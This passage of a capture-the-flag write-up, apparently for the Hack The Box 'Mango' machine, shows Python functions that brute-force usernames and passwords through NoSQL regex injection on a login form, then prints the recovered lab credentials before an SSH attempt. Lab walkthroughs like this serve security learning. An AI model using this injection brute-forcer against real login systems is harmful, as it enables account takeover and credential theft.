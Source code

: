 ```python
def getEntireUsername(session, url, cookies, firstchar):
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    username = "^" + firstchar
    while True:
        for c in possible_chars:
            params["username[$regex]"] = username + c + ".*"
            resp = session.post(url, data=params, cookies=cookies, verify=False, allow_redirects=False)
            if int(resp.status_code) == 302:
                username += c
                print(username)
                break
            if c == possible_chars[-1]:
                print("[!] Found username : {user}".format(user=username[1:]))
                return username[1:]

def getUsernames(session, url, cookies):
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c + ".*"
        params["username[$regex]"] = username
        resp = session.post(url, data=params, cookies=cookies, verify=False, allow_redirects=False)
        if int(resp.status_code) == 302:
            user = getEntireUsername(session,url,cookies,c)
            password = getPassword(session, url, cookies, user)
            print("[!] Found password: {password}".format(password=password))
```
Similarly, we will also have to do the same to dump the password from the nosql database for the corresponding usernames. To do that, we will bruteforce the password in ```username[$regex]={username}&password=^{brute force password}.*&login=login```. To do so, we can again use the script to brute force the passwords.

```python
def getPassword(session, url, cookies, user):
    params = {"username":user, "password[$regex]":"", "login": "login"}    
    password = "^"
    while True:
        for c in possible_chars:
           params["password[$regex]"] = password + c + ".*"
           resp = requests.post(url, data=params, cookies=cookies, verify=False, allow_redirects=False)
           if int(resp.status_code) == 302:
               password += c
               print(password)
               break
           if c == possible_chars[-1]:
               return password[1:].replace("\\", "")
```

Executing this script will give us 2 users and their corresponding passwords.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop]
└─$ python3 exploit.py
[!] Found username : admin
[!] Found password: t9KcS3>!0B#2
[!] Found username : mango
[!] Found password: h3mXK8RhU~f{]f5H
```
### Gaining SSH access as mango user
Using the admin:t9KcS3>!0B#2 credentials, we will try to gain access to SSH but unfortunately, we are unable to do so.

